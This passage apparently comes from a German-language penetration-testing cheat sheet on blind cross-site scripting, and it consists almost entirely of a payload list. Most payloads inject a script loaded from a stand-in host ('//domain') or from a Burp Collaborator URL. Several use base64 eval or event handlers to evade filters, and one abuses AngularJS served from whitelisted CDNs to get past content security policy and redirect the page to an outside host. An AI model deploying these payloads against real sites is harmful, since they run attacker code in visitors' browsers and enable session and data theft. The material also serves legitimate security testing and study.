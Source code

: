 Sie können auch verwenden: [https://xsshunter.com/](https://xsshunter.com)
```markup
"><img src='//domain/xss'>
"><script src="//domain/xss.js"></script>
><a href="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">Click Me For An Awesome Time</a>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb");a.send();</script>

<!-- html5sec - Self-executing focus event via autofocus: -->
"><input onfocus="eval('d=document; _ = d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')" autofocus>

<!-- html5sec - JavaScript execution via iframe and onload -->
"><iframe onload="eval('d=document; _=d.createElement(\'script\');_.src=\'\/\/domain/m\';d.body.appendChild(_)')">

<!-- html5sec - SVG tags allow code to be executed with onload without any other elements. -->
"><svg onload="javascript:eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')" xmlns="http://www.w3.org/2000/svg"></svg>

<!-- html5sec -  allow error handlers in <SOURCE> tags if encapsulated by a <VIDEO> tag. The same works for <AUDIO> tags  -->
"><video><source onerror="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!--  html5sec - eventhandler -  element fires an "onpageshow" event without user interaction on all modern browsers. This can be abused to bypass blacklists as the event is not very well known.  -->
"><body onpageshow="eval('d=document; _ = d.createElement(\'script\');_.src=\'//domain\';d.body.appendChild(_)')">

<!-- xsshunter.com - Sites that use JQuery -->
<script>$.getScript("//domain")</script>

<!-- xsshunter.com - When <script> is filtered -->
"><img src=x id=payload&#61;&#61; onerror=eval(atob(this.id))>

<!-- xsshunter.com - Bypassing poorly designed systems with autofocus -->
"><input onfocus=eval(atob(this.id)) id=payload&#61;&#61; autofocus>

<!-- noscript trick -->
<noscript><p title="</noscript><img src=x onerror=alert(1)>">

<!-- whitelisted CDNs in CSP -->
"><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.6.1/angular.js"></script>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
<!-- ... add more CDNs, you'll get WARNING: Tried to load angular more than once if multiple load. but that does not matter you'll get a HTTP interaction/exfiltration :-]... -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
### Regex - Zugriff auf versteckte Inhalte
